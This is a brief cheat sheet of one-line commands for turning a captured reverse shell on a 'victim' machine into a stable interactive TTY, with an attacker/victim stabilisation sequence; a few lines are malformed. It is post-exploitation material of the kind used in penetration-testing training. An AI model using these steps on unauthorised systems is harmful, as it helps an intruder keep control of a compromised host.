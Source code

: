 # Reverse-Shell-TTY-Cheat-Sheet
Simple TTY cheat sheet for shell stabilization
Prevents you from killing your reverse shells and adds proper shell functionality

- Python
- Script
- Perl
- Linux OS 
- Ruby
- Lua

# TTY Shells

```
python -c 'import pty; pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
echo os.system('/bin/bash')
/bin/sh -i
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

```
# TTY Shell Stabilization Process

```
Victim

python -c 'import pty; pty.spawn("/bin/bash")' OR /usr/bin/script -qc /bin/bash /dev/null
Control Z

Attacker 

stty raw -echo
fg
ENTER
ENTER

Victim

export TERM=xterm
```
